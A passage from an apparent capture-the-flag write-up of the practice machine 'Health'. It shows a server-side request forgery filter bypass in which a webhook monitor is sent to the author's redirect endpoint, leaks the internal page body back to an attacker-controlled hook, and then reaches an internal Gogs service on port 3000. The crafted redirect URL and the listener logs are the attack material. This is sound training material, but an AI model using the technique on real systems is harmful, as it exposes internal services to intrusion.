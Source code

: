 On hitting test, there's a GET, and then a POST:



    10.10.11.176 - - [06/Jan/2023 21:18:53] "POST /hook HTTP/1.1" 200 -                                                     10.10.11.176 - - [06/Jan/2023 21:20:30] "GET /redirect?r=http://127.0.0.1 HTTP/1.0" 302 -                               Got Hook!                                                                                                               {'webhookUrl': 'http://10.10.14.6/hook', 'monitoredUrl': 'http://10.10.14.6/redirect?r=http://127.0.0.1', 'health': 'up', 'body': '<!DOCTYPE.md>\n.md>\n<head>\n    <meta charset="UTF-8">\n    <meta name="viewport" content="width=device-width, initial-scale=1.0">\n
    ...[snip]...
    expires=Fri, 06-Jan-2023 23:20:30 GMT; Max-Age=7200; path=/; httponly; samesite=lax', 'Vary': 'Accept-Encoding', 'Connection': 'close'}}
    10.10.11.176 - - [06/Jan/2023 21:20:30] "POST /hook HTTP/1.1" 200 -



That seems to be the body of `health.htb`, which means I've bypassed the
filter.

#### Read Port 3000

I'll update and submit with the redirect pointing to
`http://127.0.0.1:3000`, and I get a hit. There's a ton of HTML, but
right away I can see the title says "Gogs":

![](/img/image-20230106162339340.png)

Towards the footer, there's a version:

![](/img/image-20230106162431868.png)
